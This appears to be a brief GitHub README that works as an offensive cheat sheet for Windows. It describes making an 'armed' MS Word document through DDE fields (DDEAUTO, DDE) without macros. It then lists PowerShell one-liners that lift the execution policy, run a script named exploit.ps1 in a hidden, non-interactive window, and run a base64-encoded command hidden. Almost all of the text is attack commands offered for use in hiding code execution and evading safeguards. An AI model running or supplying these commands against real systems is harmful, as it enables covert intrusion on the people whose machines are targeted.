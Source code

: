 ## MSWord-Code-Exec
Leverage Dynamic Data Exchange (DDE) through the following payloads to create an armed MS Word Document
without utilizing any macros (https://sensepost.com/blog/2017/macro-less-code-exec-in-msword/) 
* DDEAUTO
* DDE
## Bypass PowerShell Execution Policy
> Set-Executionpolicy -Scope CurrentUser -ExecutionPolicy UnRestricted
## Instantiate PowerShell.exe with no execution policy to run a script of choice
> powershell.exe -executionpolicy bypass -windowstyle hidden -noninteractive -nologo -file "c:\temp\exploit.ps1"
## Encoded PowerShell Command
> powershell.exe –WindowStyle Hidden –noprofile –EncodedCommand <BASE64ENCODED>
